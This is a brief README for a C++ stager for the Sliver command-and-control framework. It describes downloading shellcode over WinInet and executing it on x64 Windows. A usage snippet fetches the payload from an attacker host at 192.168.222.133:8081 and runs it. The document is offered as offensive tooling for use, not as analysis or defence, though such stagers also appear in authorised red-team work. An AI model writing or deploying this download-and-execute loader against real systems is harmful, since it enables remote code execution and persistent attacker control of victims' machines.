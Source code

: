 # SliverCPPStager

Simple stager for sliver c2 , for x64. Uses WinInet for downloading and uses the simplest shellcode execution 


Simple to use. Import the classes and call them with this code 
```cpp
  ShellcodeLoader loader;
  ShellCode shellcode = loader.Download(L"192.168.222.133", 8081);

  loader.ExecuteShellcode(shellcode);
```
